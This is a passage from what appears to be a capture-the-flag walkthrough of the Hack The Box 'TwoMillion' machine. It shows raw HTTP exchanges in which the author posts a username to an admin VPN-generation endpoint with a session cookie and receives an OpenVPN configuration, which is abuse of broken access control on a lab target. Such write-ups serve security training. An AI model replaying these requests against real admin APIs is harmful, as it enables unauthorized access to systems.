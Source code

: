 #### Response
```ruby
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 16 Jun 2023 16:17:40 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 53

{"status":"danger","message":"Invalid content type."}
```

Now I’ll send my username, and it generates a VPN key.
#### Request
```ruby
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=jli1t3sd64rig7par67u26nfv0
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 31

{
	"username":"wln5t0n"
}
```

#### Response
```ruby
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 16 Jun 2023 16:19:57 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 10832



client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
```